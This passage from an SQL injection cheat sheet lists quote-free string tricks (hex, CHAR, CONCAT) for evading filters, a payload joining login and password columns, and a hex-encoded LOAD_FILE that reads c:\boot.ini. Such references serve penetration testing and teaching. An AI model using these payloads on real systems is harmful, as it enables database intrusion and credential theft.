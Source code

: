 ### String  Operations

String related operations. These can be quite useful to build up injections which are not using any quotes, bypass any other black listing or determine back end database.

#### String Concatenation

-   `+` (S)   
    `SELECT login + '-' + password FROM members`
-   `||` (\*MO)   
    `SELECT login || '-' || password FROM members`

**\*About MySQL "||";**   
If MySQL is running in ANSI mode it's going to work but otherwise MySQL accept it as \`logical operator\` it'll return 0. A better way to do it is using `CONCAT()`function in MySQL.

-   `CONCAT(str1, str2, str3, ...)` (M)   
    Concatenate supplied strings.   
    `SELECT CONCAT(login, password) FROM members`

### Strings without Quotes

These are some direct ways to using strings but it's always possible to use `CHAR()`(MS) and `CONCAT()`(M) to generate string without quotes.

-   `0x457578` (M) - Hex Representation of string   
    `SELECT 0x457578`   
    This will be selected as string in MySQL.   
      
    In MySQL easy way to generate hex representations of strings use this;   
    `SELECT CONCAT('0x',HEX('c:\\boot.ini'))`
-   Using `CONCAT()` in MySQL   
    `SELECT CONCAT(CHAR(75),CHAR(76),CHAR(77))` (M)   
    This will return 'KLM'.
-   `SELECT CHAR(75)+CHAR(76)+CHAR(77)` (S)   
    This will return 'KLM'.
-   `SELECT CHR(75)||CHR(76)||CHR(77)` (O)   
    This will return 'KLM'.
-   `SELECT (CHaR(75)||CHaR(76)||CHaR(77))` (P)   
    This will return 'KLM'.

#### Hex based SQL Injection Samples

-   `SELECT LOAD_FILE(0x633A5C626F6F742E696E69)` (M)   
    This will show the content of **c:\\boot.ini**

### String Modification & Related

-   `ASCII()` (SMP)   
    Returns ASCII character value of leftmost character. A must have function for Blind SQL Injections.   
      
    `SELECT ASCII('a')`
-   `CHAR()` (SM)   
    Convert an integer of ASCII.   
      